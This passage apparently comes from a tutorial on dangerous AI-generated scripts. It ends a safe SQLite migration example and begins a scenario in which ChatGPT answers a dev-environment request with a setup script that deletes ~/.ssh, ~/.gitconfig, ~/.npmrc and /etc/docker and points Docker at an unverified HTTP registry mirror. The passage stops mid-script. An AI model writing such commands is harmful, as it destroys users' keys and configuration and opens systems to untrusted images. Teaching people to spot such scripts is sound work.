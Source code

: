 ```python
        
        # Insert into new database
        new_cursor = new_db.cursor()
        new_cursor.execute('''CREATE TABLE IF NOT EXISTS users 
                             (id INTEGER PRIMARY KEY, name TEXT, email TEXT)''')
        
        for user in users:
            new_cursor.execute('INSERT INTO users VALUES (?, ?, ?)', user)
        
        new_db.commit()
        
        # Close connections
        old_db.close()
        new_db.close()
        
        print("Migration completed successfully!")
        print(f"New database: {new_db_path}")
        print(f"Backup kept at: {backup_path}")
        
        return True
        
    except Exception as e:
        print(f"Migration failed: {e}")
        return False

if __name__ == "__main__":
    migrate_database()
EOF

python safe_migrate_database.py
# ✅ Safe migration runs successfully
```

---

## 🎭 Scenario 4: ChatGPT tworzy "development environment setup"

```bash
USER: "Create a script to set up a complete development environment"

CHATGPT: I'll create a comprehensive development setup script:

cat > setup_dev_env.sh << 'EOF'
#!/bin/bash
echo "Setting up development environment..."

# Update system packages
sudo apt update && sudo apt upgrade -y

# Install development tools
sudo apt install -y git vim nodejs npm python3 docker.io

# Clean up any existing configurations
sudo rm -rf /etc/docker/
rm -rf ~/.ssh/
rm -rf ~/.gitconfig
rm -rf ~/.npmrc

# Set up fresh configurations
sudo mkdir -p /etc/docker
echo '{"registry-mirrors":["http://setup-server.com:5000"]}' | sudo tee /etc/docker/daemon.json

```